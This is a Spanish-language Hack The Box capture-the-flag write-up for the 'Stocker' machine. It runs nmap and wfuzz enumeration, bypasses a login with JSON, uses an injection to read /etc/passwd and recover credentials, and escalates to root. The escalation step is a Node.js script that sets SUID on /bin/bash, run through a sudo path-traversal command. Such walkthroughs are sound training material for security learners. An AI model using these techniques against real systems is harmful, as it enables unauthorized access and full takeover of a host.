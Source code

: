 ```yaml
---
layout: post
author: 4akatun
---
```


# Writeup

![Stocker]({{'assets/img/Stocker/stocker.png' | relative_url}})


HACK-THE-BOX

-------------------------------------------------

Iniciamos el escaneo con **NMAP** en la maquina victima, para obtener puertos abiertos y los servicios que ocupa.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 05:31 CET
Initiating SYN Stealth Scan at 05:31
Scanning 10.10.11.196 [65535 ports]
Discovered open port 80/tcp on 10.10.11.196
Discovered open port 22/tcp on 10.10.11.196
Completed SYN Stealth Scan at 05:31, 11.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.196
Host is up, received user-set (0.046s latency).
Scanned at 2023-02-27 05:31:41 CET for 11s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
           Raw packets sent: 65679 (2.890MB) | Rcvd: 65535 (2.621MB)
```
```bash
❯ nmap -sCV -p22,80 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 05:32 CET
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Vemos que el puerto *80* esta abierto, que analizaremos con **whatweb**
```bash
❯ whatweb 10.10.11.196
http://10.10.11.196 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.196], RedirectLocation[http://stocker.htb], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: http://stocker.htb - no address for stocker.htb
```
No reconoce el nombre de dominio **stocker.htb** asi que tendremos que introducirlo en **/etc/hosts**
Una vez lo tengamos ya si introducimo en el navegador.

![web]({{'assets/img/Stocker/webstocker.png' | relative_url}})

La web contiene poco, debemos buscar **rutas y subdominios** que puedan existir.

```bash
❯ wfuzz -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://stocker.htb" -H "Host: FUZZ.stocker.htb" --hc=301
 /usr/local/lib/python3.9/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://stocker.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000000019:   302        0 L      4 W        28 Ch       "dev"
```
Obtenemos un nuevo dominio, que tambien tendremo que introducir en **/etc/host**

Y esto es lo que vemos.

![login]({{'assets/img/Stocker/weblogin.png' | relative_url}})

Usaremos **burpSuite** para interceptar la peticion y ver mas a fondo.
Al enviar la peticion vemos que nos da error

![burp3]({{'assets/img/Stocker/burp3.png' | relative_url}})

Intentaremos enviarlo en formato **json**, cambiar **content-type** e intentar burlar el panel de login.

![burp1]({{'assets/img/Stocker/burp1.png' | relative_url}})

Al parecer resulto y podemos acceder a la *web*

Vemo una serie de articulos que estan a la venta

![web2]({{'assets/img/Stocker/webStock.png' | relative_url}})

Comprare un producto e interceptare la peticion con **BurpSuite** de nuevo.

![burp4]({{'assets/img/Stocker/burp4.png' | relative_url}}) ![stock]({{'assets/img/Stocker/burp.png' | relative_url}})

Modificamos el titulo para introducir lo que nos interesa, para poder leer archivos de la maquina victima.
Nos quedamos con el numero de **orderID** y lo introducimos en la *web* en la ruta **/api/po/**
Y asi podemos leer el contedido de **/etc/passwd** y listar los usuarios del sistema.
![etcpasswd]({{'assets/img/Stocker/etcpasswd.png' | relative_url}})

Ya que tenemos exito en la lectura de archivo, provare a buscar en una ruta concreta si hay credenciales en texto plano.

![img]({{'assets/img/Stocker/burp2.png' | relative_url}})

Tengo suerte y puedo visualizar unas credenciales.

![sshpass]({{'assets/img/Stocker/sshpassw.png' | relative_url}})

La provare por *ssh* con el usuario *angoose* que vimos antes.

```bash
❯ ssh angoose@10.10.11.196
angoose@10.10.11.196's password: 
Last login: Mon Feb 27 03:33:26 2023 from 10.10.14.2
angoose@stocker:~$ whoami
angoose
angoose@stocker:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.196  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:9b:c6  txqueuelen 1000  (Ethernet)
        RX packets 135505  bytes 8341794 (8.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 136293  bytes 9132784 (9.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13681  bytes 2292516 (2.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13681  bytes 2292516 (2.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
angoose@stocker:~$ cat user.txt 
052**************************63f
angoose@stocker:~$
```

Hemos podido ganar acceso, estamo en la maquina victa y podemos visualizar
la *flag* de bajos privilegio.
Tenemos que buscar la formar de convertirnos en **root**

Acontinuacion si escribimos **sudo -l** vemos lo siguiente...
```bash
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$
```
Cualquier usuario puede ejecutar cualquier script *.js* que este en esa ruta.
Creare mi propio *script .js* para dar privilegio **SUID** a **/bin/bash** y asi podria escalar privilegios.

```js
 const fsPromises = require("fs").promises;
 const fs = require("fs");(async () => {
   try {
     const { fd } = await fsPromises.open("/bin/bash", "r");
     fs.fchmod(fd, 0o4777, err => {
       if (err) throw err;
       console.log("File permission change succcessful");
     });
   } catch (error) {
     console.log(error);
   }
 })();
```
Puedes leer mas informacion sobre este script [en este enlace](https://codeburst.io/node-js-fs-module-changing-file-permissions-and-ownership-with-file-descriptors-14749fdf3eaf)

Lo ejecutamos de la siguietne forma...
```bash
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../home/angoose/suid.js
File permission change succcessful
angoose@stocker:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
```

Lo hemos conseguido ya queda menos.
Ejecutamos el siguiente comando y ya hestariamo como root y podemos visualiazar la ultima **flag**

```bash
angoose@stocker:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
3de**************************07f
bash-5.0# 
```

# Espro que te pueda servir de ayuda. *GRACIAS por venir*



